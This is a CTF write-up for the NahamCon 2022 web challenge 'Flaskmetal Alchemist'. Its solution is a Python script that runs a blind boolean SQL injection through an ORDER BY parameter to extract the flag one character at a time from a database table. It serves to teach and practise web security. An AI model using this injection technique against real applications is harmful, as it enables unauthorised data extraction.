 ```yaml
---
name: Flaskmetal Alchemist (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Flaskmetal Alchemist (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flaskmetal Alchemist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=705 "NahamCon CTF 2022: Flaskmetal Alchemist")

## Description

> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

## Solution

```py
import requests
import string
from bs4 import BeautifulSoup

url = 'http://challenge.nahamcon.com:30010/'
flag = 'flag{'
index = 6

# Until we've got the whole flag
while flag[-1] != '}':
    for char in list('_' + string.ascii_lowercase + '}'):  # Charset
        # Post data, orderby is the SQLi (blind boolean)
        data = {"search": "",
                "order": f"(CASE WHEN (SELECT (SUBSTR(flag, {index}, 1)) from flag ) = '{char}' THEN name ELSE atomic_number END) DESC--"}

        response = requests.post(url, data=data)
        # Extract the first value
        extracted = BeautifulSoup(response.text, features="lxml").td.contents[0]

        # If it's 116 (Livermorium) then condition is false
        if extracted != '116':
            flag += char
            print(flag)
            index += 1
            break
```
